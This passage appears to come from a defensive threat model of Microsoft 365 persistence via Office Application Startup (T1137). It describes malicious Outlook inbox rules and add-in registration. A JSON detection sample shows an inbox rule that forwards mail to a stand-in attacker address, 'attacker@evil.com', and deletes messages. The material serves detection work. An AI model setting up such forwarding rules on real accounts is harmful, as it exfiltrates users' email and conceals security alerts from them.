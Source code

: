 ## 6. References
- MITRE ATT&CK: T1566.002
- Microsoft: OAuth 2.0 Consent Phishing
- Microsoft: Defending Against OAuth App Phishing
- Microsoft: Detect and Remediate Illicit Consent Grants

---

# Threat Model: Office Application Startup (T1137) in Microsoft 365 & Entra ID

## 1. Overview

Office Application Startup persistence in Microsoft 365 focuses on abusing legitimate features like Outlook rules, add-ins, and templates to maintain access. The key risk areas are:

- Outlook inbox rules for email forwarding/deletion
- Office add-ins registered via Entra ID applications
- Custom forms and templates in SharePoint/OneDrive

## 2. Attack Vectors

### 2.1 Malicious Outlook Rules

**Description:**
Adversaries create inbox rules to forward emails, delete security alerts, or execute actions on messages.

**Attack Scenario:**
1. Attacker compromises user account
2. Creates rule to forward emails to external address
3. Configures rule to delete security notifications

**Detection Fields:**
```json
{
  "Operation": "New-InboxRule",
  "UserIds": ["user@domain.com"],
  "Parameters": {
    "RuleName": "External Forward",
    "ForwardTo": "attacker@evil.com",
    "DeleteMessage": true
  }
}
```

### 2.2 Office Add-in Registration

**Description:** 
Attackers register malicious Office add-ins as Azure applications to persist access.
